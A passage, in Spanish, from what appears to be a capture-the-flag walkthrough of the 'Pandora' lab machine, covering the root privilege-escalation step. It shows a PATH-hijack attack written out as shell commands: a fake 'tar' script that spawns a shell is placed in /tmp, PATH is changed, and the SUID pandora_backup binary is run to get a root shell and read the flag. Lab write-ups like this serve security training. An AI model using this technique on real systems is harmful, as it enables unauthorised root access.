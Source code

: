 Este es nuestro **PATH** 

```bash
matt@pandora:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:~$ 
```

Vamos a manipular todo esto  

Lo que vamos a hacer es que nos de una **Bash** como **root** ya que **root** es la persona que esta ejecutando el binario al crearnos un archivo llamado **tar** le vamos a decir que el **PATH** comience desde donde nosotros le indiquemos que es en esta ruta para que tome nuestro **tar** y no el **/usr/bin/tar** que esa es su ruta absoluta pero aprovechándonos de que en el binario no se esta haciendo de manera correcta la llamada a **/usr/bin/tar** es por eso que podemos alterar esto 

```bash
matt@pandora:~$ cd /tmp
matt@pandora:/tmp$ touch tar
matt@pandora:/tmp$ chmod +x tar
matt@pandora:/tmp$ nano tar 
matt@pandora:/tmp$ cat tar 
/usr/bin/sh
matt@pandora:/tmp$ 
```

Ahora el **PATH** comienza en **tmp** y como va buscar el **tar** y el **tar** lo tenemos en **tmp** pues como hay lo va a encontrar va a ejecutar el de nosotros y no va a llegar ala ruta donde si esta el **tar** correcto gracias a esto ejecutara la instrucción que indicamos que es darnos una **sh** 

```bash
matt@pandora:/tmp$ export PATH=/tmp:$PATH
matt@pandora:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/tmp$ 
```

## Shell as root && root.txt 

Ahora si ejecutamos funciona ya que cuando ejecutes cualquier comando va a comenzar a buscar desde **tmp** así adelante y como **tar** esta en **tmp** que es el de nosotros pues listo hay lo encuentra y ejecuta lo que le dijimos

```bash
matt@pandora:/tmp$ pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
# whoami
root
# 
```

```bash
# bash
root@pandora:/tmp# cd /root
root@pandora:/root# cat root.txt 
fb3d15aa14335548d163287b9e5b5161
root@pandora:/root# 
```
